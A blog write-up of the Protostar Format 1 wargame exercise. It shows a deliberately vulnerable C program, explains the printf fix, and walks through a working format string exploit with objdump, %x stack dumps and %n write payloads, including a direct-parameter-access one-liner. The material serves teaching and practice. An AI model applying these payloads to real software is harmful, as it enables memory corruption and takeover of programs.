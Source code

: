 ```yaml
---
title: "Exploit Exercises - Protostar Format 1"
date: "2012-01-30T18:12:00-05:00"
comments: true
highlight: "true"
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Following the Format 0 challenge, I've had to do a bunch of reading on how format string exploits work on a very low level. 

Some resources that I've found greatly useful: 

* [Hacking: The Art of Exploitation, 2nd Edition](http://www.amazon.com/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag=mattandcom-20&linkCode=as2&camp=1789&creative=390957&creativeASIN=1593271441)<img src="http://www.assoc-amazon.com/e/ir?t=mattandcom-20&l=as2&o=1&a=1593271441" width="1" height="1" border="0" alt="" style="border:none !important; margin:0px !important;" />
* [Exploiting Format String Vulnerabilities](http://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
* [SecurityTube.net Format String Vulnerabilities Megaprimer](http://www.securitytube.net/groups?operation=view&groupId=3)

With this challenge, we're given some c code in which we are to find the vulnerability.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
 printf(string);

 if(target) {
  printf("you have modified the target :)\n");
 }
}

int main(int argc, char **argv)
{
 vuln(argv[1]);
}
```

If you notice, there is a string format vulnerability inside the "vuln" function.  It is doing a "printf" of a string directly provided by the user.  To prevent this vulnerability, this line should read: 

```
printf("%s", string);
```

The first step of exploiting this vulnerability, would be to find the address of "target", so that we can modify it. 

```
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep target
08049638 g     O .bss   00000004              target
```

The next step, is to find the direct reference in the stack to the command argument we enter.  To do this, we can simply spam "%x", since that pops the next word off of the stack.  If we do it multiple times, eventually we'll get to where the argument is located.  I chose to do it 150 times, guessing it would be less than that. 

```
user@protostar:/opt/protostar/bin$ ./format1 AAAAAAAA`perl -e 'print "%x."x150'`
AAAAAAAA804960c.bffff628.8048469.b7fd8304.b7fd7ff4.bffff628.8048435.bffff7f0.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6a8.b7eadc76.2.bffff6d4.bffff6e0.b7fe1848.bffff690.ffffffff.b7ffeff4.804824d.1.bffff690.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6a8.8570f76f.af24e17f.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6d4.8048450.8048440.b7ff1040.bffff6cc.b7fff8f8.2.bffff7e6.bffff7f0.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7cb.1f.bffffff2.f.bffff7db.0.0.0.cf000000.4b112951.96083d4e.8dce3d07.69b25f71.363836.0.2f2e0000.6d726f66.317461.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```

If you look at that output, you'll see each byte in the stack, separated by periods.  Eventually, you should see "41414141", since the 150 number was enough.  This points to the "AAAAAAAA" we entered at the beginning of the argument.  I often find it easy to do 8 "A"s instead of 4, in case the byte is split up, and not aligned properly, giving something like "41411234.5678414141". 

Counting in, it looks like it was 128 bytes into the stack to get to.  Just to verify, let's try a little more precisely: 

```
user@protostar:/opt/protostar/bin$ ./format1 AAAA`perl -e 'print "%x."x128'`%x
AAAA804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.77ba880e.5dee1e1e.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.3b000000.34e9adc8.e1b8c42b.3212319e.690884e6.363836.0.0.2f2e0000.6d726f66.317461.41414141
```

That verifies that no additional padding needs to be done, the last word is reading perfectly. 

Next, instead of passing "AAAA" (or 0x41414141) as the address, we'll try using the address of "target": 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08" . "%x."x128'`%x
8804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.b623f0ae.9c7766be.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.98000000.88091ce4.7be8a4e7.30f01468.69a9fa50.363836.0.0.2f2e0000.6d726f66.317461.8049638
```

Note that the initial 0 is missing, but that's ok.  It seems that worked as well, so let's tell it to overwrite the memory address instead of just printing it to the screen: 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08" . "%x."x128'`%n
8804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.a61b35ff.8c4fa3ef.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.48000000.eacde3e8.ce402cfb.689377d6.699e12c7.363836.0.0.2f2e0000.6d726f66.317461.you have modified the target :)
```

There you have it.  We modified the value, which made the application output "you have modified the target :)" 

As a bonus solution, I found you can also use Direct Parameter Access, and solve it with a lot less junk on the screen: 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08"'`%128\$n
8you have modified the target :)
```
